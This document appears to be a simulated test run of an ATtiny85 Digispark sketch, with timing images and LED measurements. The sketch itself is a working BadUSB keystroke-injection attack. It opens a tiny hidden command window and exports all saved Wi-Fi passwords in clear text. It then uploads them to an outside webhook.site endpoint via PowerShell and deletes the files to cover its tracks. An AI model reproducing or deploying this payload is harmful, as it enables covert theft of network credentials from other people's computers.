
Simulated run of this sketch. Board: ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 110.0 s:

Timing chart, 0 to 111.5 s (numbered marks = the images above):


The sketch:

Digispark_WiFi_Audit.ino
```cpp
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key


void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}


void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible
  DigiKeyboard.delay(500);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu
  DigiKeyboard.sendKeyStroke(KEY_M); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri (https://webhook.site) -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);

}
```

Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 7.5 s, → LOW 90.0 s later, → HIGH 12.5 s later
